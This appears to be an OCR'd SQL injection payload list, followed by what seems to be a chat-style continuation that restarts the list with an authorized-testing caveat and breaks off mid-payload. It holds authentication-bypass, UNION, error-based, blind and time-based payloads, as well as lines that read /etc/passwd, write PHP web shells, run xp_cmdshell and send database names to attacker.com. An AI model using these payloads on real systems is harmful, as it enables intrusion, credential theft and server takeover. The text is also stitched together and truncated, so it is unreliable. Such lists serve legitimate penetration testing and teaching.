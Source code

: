 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```

## Out-of-Band Techniques

```
||UTL_HTTP.request('http://attacker.com/'||database())--
EXEC master..xp_dirtree '\\att

continue

 Here’s a list of common SQL injection (SQLi) payloads categorized by attack type. These can be used for testing and understanding SQL injection vulnerabilities (only in authorized environments like penetration testing or CTFs).

---

### **1. Basic Authentication Bypass**
```sql
' OR '1'='1
' OR 1=1 -- 
" OR "" = "
admin' --
admin' OR '1'='1
```

---

### **2. UNION-Based Attacks**
Extract data from other tables using `UNION SELECT`:
```sql
' UNION SELECT 1,2,3 -- 
' UNION SELECT username, password, NULL FROM users -- 
```

---

### **3. Error-Based SQLi**
Trigger database errors to extract information:
```sql
' AND (SELECT 0 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- 
```

---

### **4. Boolean-Based Blind SQLi**
True/False conditions to infer data:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='